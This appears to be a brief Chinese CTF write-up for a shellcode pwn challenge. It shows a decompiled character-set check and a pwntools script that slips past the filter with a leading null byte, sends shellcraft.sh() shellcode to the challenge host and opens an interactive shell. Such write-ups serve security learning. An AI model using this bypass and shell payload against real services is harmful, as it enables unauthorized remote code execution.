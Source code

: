 # 挑战简介
简单的shellcode？不对劲，十分得有十二分的不对劲

# 思路
观看check函数  
```
signed __int64 __fastcall check(_BYTE *a1)
{
  _BYTE *j; // [rsp+18h] [rbp-10h]
  _BYTE *i; // [rsp+20h] [rbp-8h]

  for ( i = a1; *i; ++i )
  {
    for ( j = &unk_400F20; *j && *j != *i; ++j )
      ;
    if ( !*j )
      return 0LL;
  }
  return 1LL;
}
```

很明显，检查你输入的shellcode是否在字符集内  
但是我们最主要要做的，还是绕过检查

有没有以\x00开头的shellcode呢？  

有的  
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='amd64', log_level='debug')

p = remote("pwn.challenge.ctf.show",28292)
elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())

pass_ = b'\x00\xc0' 

payload = pass_ + shellcode

p.sendline(payload)

p.interactive()

```

